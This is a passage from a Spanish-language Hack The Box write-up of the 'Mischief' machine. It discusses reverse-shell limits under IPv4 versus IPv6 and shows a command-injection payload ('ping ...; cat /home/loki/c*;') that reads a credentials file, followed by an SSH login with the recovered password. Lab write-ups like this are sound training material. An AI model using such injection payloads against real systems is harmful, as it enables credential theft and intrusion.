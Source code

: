 ## Shell as www-data

Bueno ya con esto podríamos enviarnos una **reverse shell** pero no funciona pero hay que recordar que estamos mediante **IPv6** y siempre lo hemos hecho por **IPv4** tomando en cuenta que es una maquina **Insane** y que nos hicieron hacer todo por **IPv6** lo mas probable es que haya reglas **iptables** que bloquean que nos podamos enviar una reverse shell por **IPv4** pero bueno también tenemos **IPv6** así que lo haremos mediante esto 

Bueno algo también que podemos hacer es que si recordamos nos decían que había un archivo que se llama credentials así que como podemos ejecutar comandos podemos tratar de leer el archivo `ping -c 2 127.0.0.1; cat /home/loki/c*;`

![](/assets/images/htb-writeup-mischief/web18.png)

Esa contraseña no la habíamos tenido así que podemos conectarnos por **SSH**

```bash
❯ ssh loki@10.10.10.92
The authenticity of host '10.10.10.92 (10.10.10.92)' can't be established.
ECDSA key fingerprint is SHA256:deaxXTK7ORthfGcKdblPRUmgNrU20oclqMbwVj3hzYI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.92' (ECDSA) to the list of known hosts.
loki@10.10.10.92's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 27 21:47:11 UTC 2023

  System load:  0.01              Processes:            162
  Usage of /:   61.5% of 6.83GB   Users logged in:      0
  Memory usage: 36%               IP address for ens33: 10.10.10.92
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


Last login: Sat Jul 14 12:44:04 2018 from 10.10.14.4
loki@Mischief:~$ 
```
